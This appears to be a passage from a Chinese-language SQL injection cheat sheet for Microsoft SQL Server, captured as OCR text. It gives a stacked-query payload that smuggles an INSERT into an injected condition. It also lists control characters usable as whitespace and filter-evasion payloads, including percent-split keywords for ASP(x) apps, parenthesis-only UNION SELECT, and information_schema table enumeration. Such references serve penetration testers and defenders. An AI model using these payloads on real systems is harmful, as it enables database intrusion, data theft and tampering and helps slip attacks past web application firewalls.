 #### 堆查询

MSSQL 支持堆查询

```text
Example:
' AND 1=0 INSERT INTO ([column1], [column2]) VALUES ('value1', 'value2');
```

#### Fuzz

以下字符可以用作空格。

```text
01    Start of Heading
02    Start of Text
03    End of Text
04    End of Transmission
05    Enquiry
06    Acknowledge
07    Bell
08    Backspace
09    Horizontal Tab
0A    New Line
0B    Vertical Tab
0C    New Page
0D    Carriage Return
0E    Shift Out
0F    Shift In
10    Data Link Escape
11    Device Control 1
12    Device Control 2
13    Device Control 3
14    Device Control 4
15    Negative Acknowledge
16    Synchronous Idle
17    End of Transmission Block
18    Cancel
19    End of Medium
1A    Substitute
1B    Escape
1C    File Separator
1D    Group Separator
1E    Record Separator
1F    Unit Separator
20    Space
25
22    "
28    (
29    )
5B    [
5D    ]

Examples:
S%E%L%E%C%T%01column%02FROM%03table;
A%%ND 1=%%%%%%%%1;

UNION(SELECT(column)FROM(table));
SELECT"table_name"FROM[information_schema].[tables];

tips:
关键字之间的百分比符号只能在ASP(x)Web应用程序上使用。
```
